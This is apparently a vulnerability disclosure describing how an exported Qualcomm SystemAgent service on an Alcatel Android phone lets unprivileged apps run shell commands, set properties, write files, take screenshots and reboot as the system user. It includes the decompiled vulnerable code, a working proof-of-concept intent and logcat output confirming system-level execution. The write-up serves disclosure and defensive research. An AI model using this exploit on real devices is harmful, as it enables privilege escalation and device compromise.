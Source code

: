 # CVEs
- No CVEs requested / None assigned, reported directly to vendor
- Issue 1: Qualcomm SystemAgent application allows unprivledged user execution of shell commands as system user
- Issue 2: QSA applications allows ability for unprivledged user to set system properties.
- Issue 3: QSA applications allows ability for unprivledged user to write strings as system user.
- Issue 4: QSA applications allows ability for unprivledged user take a screen shot of device.
- Issue 5: QSA applications allows ability for unprivledged user reboot the device.

## Authors
- Jon “jcase” Sawyer - jcase@cunninglogic.com

## Affected Devices (tested on)
- Accatel A564C (TCL/ALCATEL_A564C/Yaris5NA:4.4.2/KVT49L/v4FAZ-0-0:user/release-keys)
- Potentially other devices with the com.qualcomm.agent package install on it

## Main (interesting) Vulnerability 

Only diving directly into the interesting vulnerability which is the Qualcomm SystemAgent application allowing an unprivledged user to
 execute any shell commands as system user. This application apparently was never meant to ship on production devices.

### Result
Local privilege escalation to system user, with multiple groups running in the system_app context

### Overview

The Qualcomm SystemAgent application (package name `com.qualcomm.agent`) has an unsecured (exported, no permissions required):

```
<service android:name="com.qualcomm.agent.SystemAgent">
<!-- snip -->
    <intent-filter>
        <action android:name="android.system.fullagent" />
        <category android:name="android.intent.category.DEFAULT" />
    </intent-filter>
</service>
```

The when a `startService` broadcast is sent to the `SystemAgent` using the fullagent action intent, the service executes the intent's "para"
data field as a shell command.

```
Values.ACTION_FULL_AGENT = "android.system.fullagent";

public int onStartCommand(Intent intent, int flags, int startId) {
// .. snip ..
    else if(Values.ACTION_FULL_AGENT.equals(intent.getAction())) {
        this.exec(intent.getStringExtra("para"));
    }

    return 1;
}

    void exec(String para) {
        new Thread() {
            final SystemAgent this$0;
            final String val$para;

            public void run() {
                int v13 = 0x23;
                try {
                    SystemAgent.logd(this.val$para);
                    String[] paras = this.val$para.split(",");
                    int i;
                    for(i = 0; i < paras.length; ++i) {
                        SystemAgent.logd(i + ":" + paras[i]);
                    }

                    Process mProcess = Runtime.getRuntime().exec(paras);
                    mProcess.waitFor();
                    BufferedReader inBuffer = new BufferedReader(new InputStreamReader(mProcess.getInputStream()));
                    String data;
                    for(data = ""; true; data = data + s + "\n") {
                        String s = inBuffer.readLine();
                        if(s == null) {
                            break;
                        }
                    }

                    SystemAgent.logd(data);
                    int result = mProcess.exitValue();
                    SystemAgent.logd("ExitValue=" + result);
                    String resultProp = paras[0] + ",";
                    if(result >= 0 && result != 0xFF) {
                        resultProp = data.length() > v13 ? resultProp + data.substring(0, 0x23) : resultProp + data;
                    }

                AgentUtils.setSystemProperties(Values.AGENT_RESULT_PROP, resultProp);
                    return;
                }
                catch(Exception e) {
                    SystemAgent.logd(e);
                    return;
                }
            }
        }.start();
    }
```

### Proof of concept

```
ComponentName intentComponent = new ComponentName("com.qualcomm.agent", "com.qualcomm.agent.SystemAgent");
Intent serviceIntent = new Intent ("android.system.fullagent");
serviceIntent.setComponent(intentComponent);
serviceIntent.putExtra("para", "/system/bin/id");
startService(serviceIntent);
```

Result from logcat:
```
  D/SystemAgent( 4109): [onCreate] RUN
  D/SystemAgent( 4109): [onStartCommand] 1
  D/SystemAgent( 4109): [access$000] /system/bin/id
  D/SystemAgent( 4109): [access$000] 0:/system/bin/id
  D/SystemAgent( 4109): [access$000] uid=1000(system) gid=1000(system) groups=1000(system),1004(input),1010(wifi),1015(sdcard_rw),1021(gps),1023(media_rw),1028(sdcard_r),2002(diag),3001(net_bt_admin),3002(net_bt),3003(inet),3004(net_raw),3005(net_admin),3009(qcom_diag),41000(u0_a31000) context=u:r:system_app:s0
  D/SystemAgent( 4109): [access$000] ExitValue=0
```

### Additional related vulnerabilities in SystemAgent application

More issues are found inside the method `private void doSystemActions(String para)`, which 
are located and accessable in the same service. This  allows an unprivledged application/user to:
- Set system properties
- Write strings to files as system user (writeFileAgent)
- Take a screen shot and save it to “/storage/sdcard1/logs/screenshot.png"
- Reboot the device﻿
